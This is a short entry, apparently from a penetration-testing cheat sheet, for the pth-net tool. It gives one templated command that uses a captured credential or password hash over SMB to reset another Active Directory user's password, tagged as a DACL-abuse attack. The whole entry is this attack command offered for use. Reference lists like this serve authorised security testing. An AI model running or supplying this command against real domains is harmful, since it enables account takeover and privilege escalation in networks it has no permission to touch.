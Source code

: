 # pth-net

## change user password (pth)
#plateform/linux #target/remote  #port/445 #protocol/smb #cat/ATTACK/DACL-ABUSE 
```
pth-net rpc password '<target_user>' '<new_password>' -U '<domain_netbios>'/'<user>'%'<password>' -S "<dc>"
```